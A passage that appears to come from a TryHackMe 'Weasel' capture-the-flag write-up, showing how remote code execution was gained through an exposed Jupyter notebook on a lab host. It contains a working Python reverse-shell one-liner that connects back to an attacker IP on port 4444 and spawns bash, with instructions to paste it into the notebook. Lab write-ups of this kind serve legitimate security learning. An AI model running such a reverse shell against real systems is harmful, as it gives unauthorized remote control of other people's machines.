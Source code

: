 Same look files on the SMB

## `http://10.10.88.45:8888/notebooks/weasel.ipynb`

# RCE

**Resource:**

`https://exploit-notes.hdks.org/exploit/machine-learning/jupyter-notebook-pentesting/`

```bash
import socket,os,pty;s=socket.socket();s.connect(("10.13.47.211", 4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")

```

Paster this script and run it on Jupyter notebook

![image5.png](/assets/img/posts/THM-Weasel/image5.png)

![image6.png](/assets/img/posts/THM-Weasel/image6.png)

